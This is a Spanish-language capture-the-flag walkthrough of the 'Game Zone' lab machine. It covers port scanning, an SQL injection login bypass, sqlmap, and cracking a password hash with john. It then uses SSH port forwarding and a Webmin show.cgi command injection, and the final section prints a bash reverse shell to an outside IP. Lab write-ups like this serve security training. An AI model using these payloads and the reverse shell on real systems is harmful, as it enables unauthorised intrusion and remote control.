









# Game Zone

```bash
sudo nmap -sS -p- --min-rate 4000 --open -vvv -Pn -n 10.10.196.59 -oG allports
nmap -sC -sV -p 22,80 10.10.196.59 -oN targeted
```



## 80

Nos encontramos con una página con un formulario para logearnos y usaremos sql bypass para logearnos

```
Log in: 'or 1=1 -- -
Password: ' or 1=1 -- -
```


Con eso logramos entrar a la pagina portal.php



sale un mensaje de error al colocar `'`, entonces usaremos burp suite para interceptar esa consulta y aplicaremos esa en sqlmap





Guardamos el hash en un archivo para usar john de ripper para crackearlo

```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
```



`videogamer124`

## SSH

```bash
ssh agent47@10.10.196.59
```

Entramos a la maquina con la contraseña encontrada y sacamos la flag user.txt

## Analizando las redes en la maquina

```bash
ss -tulpn
```



Tiene una servicio corriendo en el puerto 10000, entonces haremos un local port forwarding de ese puerto.

```bash
ssh -L 10000:localhost:10000 agent47@10.10.196.59
```

Encontramos un panel de webmin, ahora entramos con las credenciales que encontramos antes, pero ahora buscaremos en searchsploit si es que existe algún exploit.

Solo hay exploit con metasploit, pero podemos leer que es lo que hace para intentarlo de otra manera.



usamos -x para leerlo y -m para descargar el exploit



En la primera parte vemos que entra a /file/show.cgi/bin/ luego ingresa un numero aleatorio y de ahí ingresa un comando para ejecutar.

Al probar sería así:



Entonces para sacar la flag de root sería entrando a `http://localhost:10000/file/show.cgi/bin/7|cat /root/root.txt|`

## Rever Shell

primero deberemos escuchar con `nc -lvp 4444`

```http
http://localhost:10000/file/show.cgi/bin/7|echo "bash -i >& /dev/tcp/10.13.13.243/4444 0>&1
">/tmp/shell.sh|

http://localhost:10000/file/show.cgi/bin/7|bash /tmp/shell.sh|
```

